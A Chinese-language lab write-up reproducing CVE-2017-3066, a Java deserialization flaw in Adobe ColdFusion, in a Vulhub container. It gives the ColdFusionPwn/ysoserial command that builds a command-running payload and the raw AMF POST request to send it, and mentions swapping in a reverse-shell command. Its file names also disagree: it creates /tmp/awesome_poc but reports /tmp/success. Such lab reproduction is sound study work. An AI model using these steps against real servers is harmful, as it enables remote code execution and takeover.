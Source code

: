 # Adobe ColdFusion 反序列化漏洞 CVE-2017-3066

## 漏洞描述

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion中存在java反序列化漏洞。攻击者可利用该漏洞在受影响应用程序的上下文中执行任意代码或造成拒绝服务。以下版本受到影响：Adobe ColdFusion (2016 release) Update 3及之前的版本，ColdFusion 11 Update 11及之前的版本，ColdFusion 10 Update 22及之前的版本。

参考链接：

- https://codewhitesec.blogspot.com.au/2018/03/exploiting-adobe-coldfusion.html
- https://www.exploit-db.com/exploits/43993
- https://github.com/codewhitesec/ColdFusionPwn

## 环境搭建

Vulhub启动漏洞环境：

```
docker-compose up -d
```

访问`http://your-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。

## 漏洞复现

使用参考链接中的[ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn)工具来生成POC：

```
java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.6-SNAPSHOT-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/awesome_poc' poc.ser
```

POC生成于poc.ser文件中，将POC作为数据包body发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type为application/x-amf。

将POC作为数据包body：Burpsuite右键→Paste From File→选择poc.ser

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
```

**至此，复现不成功，上传poc.ser之后POST，/tmp/awesome_poc文件没有创建完成**

**补充：与burpsuite版本有关，老版本的burpsuite可以复现成功**。

**Burpsuite+Postman联动复现也不成功。操作步骤可参考：https://mp.weixin.qq.com/s/-6U2dOJs930kMYv7z-NUgg**

------

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202212052978.png)

进入容器中，发现`/tmp/success`已成功创建：

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202212053950.png)

将POC改成[反弹命令](https://www.bugku.net/runtime-exec-payloads/)，成功拿到shell：

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202212053074.png)
